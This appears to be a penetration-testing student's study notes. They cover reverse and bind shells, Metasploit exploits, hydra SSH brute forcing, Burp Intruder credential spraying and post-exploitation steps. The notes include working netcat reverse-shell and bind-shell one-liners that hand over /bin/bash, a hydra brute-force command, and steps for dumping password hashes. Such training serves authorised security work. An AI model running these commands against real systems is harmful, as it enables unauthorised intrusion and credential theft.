

reverse/bind shells

reverse: target connects to us (most common)

bind: we open a port on the target, then we connect to it
(mostly on external assesments, behind vms)

example reverse
target: nc 192.168.129.129 4444 -e /bin/bash
attacker: nc -nvlp 4444

example bind
target: nc -nlvp 444 -e /bin/bash
attacker: nc 192.168.129.129 444

on both: first listen, then connect

* * *

staged/non-staged payloads

try combinations of staged/non-staged and bind/reverse

* * *

msfconsole > search trans2open
show targets
do not use port 4444
change payloads, try a few

manual download exploit
alternative using "OpenFuck" to exploit Apache/mod_ssl on port 80

* * *

brute force attacks
test password strength?
default passwords?
blue team sees us brute forcing?

sometimes you want to get caught, be loud

hydra: brute force tool
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.129.130:22 -t 4 -V

can do the same with metasploit

* * *

credential spraying and password stuffing
most common on external assesments (weak credentials > exploit in the wild)
ask before you attack so you don't lock out users (attempts)

using breached credentials in hope of account takeover

weblogin attacks: burpsuite
catch a login request > send to intruder
positions > add $ to select the parameters in the request
pitchfork attack allows many parameters (user/pwd)
go to payloads > assign values (copy/paste) to each payload set
start > check for change in status or length of response, or full response
can go to options and grep whatever text is failure/success/etc

password spraying: using a single password on many known to work users
use sniper attack on intruder

* * *

post-exploitation

find out my ip
see if we have 2(more) NICs, and pivot
see to whom the machine is talking to

cat psw and shadow files / hashdump (meterpreter)
crack passwords
enumerate files
see user folders for more juicy stuff